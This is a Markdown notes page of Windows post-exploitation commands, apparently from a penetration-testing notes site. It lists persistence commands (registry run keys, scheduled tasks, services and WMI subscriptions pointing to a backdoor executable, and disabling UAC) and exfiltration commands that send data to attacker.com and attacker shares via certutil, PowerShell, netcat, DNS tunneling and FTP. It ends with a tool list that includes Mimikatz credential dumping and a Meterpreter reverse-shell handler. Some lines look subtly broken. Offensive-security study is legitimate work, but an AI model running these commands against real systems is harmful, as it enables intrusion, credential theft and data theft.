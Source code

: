 ```yaml
---
layout: notes
permalink: /notes/windows/post/
title: Windows Post Exploitation
---
```


# Windows Post Exploitation

## Persistence Techniques
```powershell
# Add registry run key for persistence
reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /t REG_SZ /d c:\\backdoor.exe

# Add registry run key for all users
reg add HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /t REG_SZ /d c:\\backdoor.exe

# Create persistent scheduled task
schtasks /create /tn "Update" /tr c:\\backdoor.bat /sc minute /mo 5

# Run scheduled task
schtasks /run /tn "Update"

# Create persistent service
sc create Backdoor binPath= "c:\\backdoor.exe" start= auto

# Start service
sc start Backdoor

# Query service status
sc qc Backdoor

# Create WMI event subscription for persistence
wmic /node:localhost /namespace:\\\\root\\subscription path __EventFilter create Name="Filter" EventNameSpace="root\\cimv2" QueryLanguage="WQL" Query="SELECT * FROM Win32_ProcessStartTrace"

wmic /node:localhost /namespace:\\\\root\\subscription path CommandLineEventConsumer create Name="Consumer" ExecutablePath="c:\\backdoor.exe" WorkingDirectory="c:\\"

wmic /node:localhost /namespace:\\\\root\\subscription path __FilterToConsumerBinding create Filter="__EventFilter.Name=\"Filter\"" Consumer="__CommandLineEventConsumer.Name=\"Consumer\""

# Disable UAC for persistence
reg add HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System /v EnableLUA /t REG_DWORD /d 0 /f

# Create logon trigger task
schtasks /create /tn "Startup" /tr c:\\backdoor.exe /sc onlogon
```

## Data Exfiltration
```powershell
# Copy file to network share
copy c:\\sensitive.txt \\\\attacker\\share

# Copy directory recursively
xcopy c:\\data c:\\temp /E /H

# Download file via certutil
certutil -urlcache -split -f http://attacker.com/data.zip data.zip

# Upload file via PowerShell
powershell -Command "Invoke-WebRequest -Uri http://attacker.com -OutFile c:\\data.zip -Method Post -InFile c:\\data.txt"

# Send data via Netcat
nc -l 4444 < data.txt

# Compress data
compress c:\\data -o data.zip

# Encode data for exfiltration
certutil -encode data.zip data.b64

# Use DNS tunneling
dnscat2 -c attacker.com

# FTP upload
ftp -s:ftpscript.txt

# Upload via PowerShell FTP
Invoke-WebRequest -Uri ftp://attacker:password@attacker.com -Method Put -InFile c:\\data.txt
```

## Tools
- Mimikatz: ``` mimikatz.exe "sekurlsa::logonpasswords" ```
- PowerShell Empire: ``` .\empire ```
- Netcat: ``` nc -l 4444 ```
- PsExec: ``` PsExec.exe \\\\<target> -u <user> -p <pass> cmd ```
- Meterpreter: ``` msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; exploit" ```
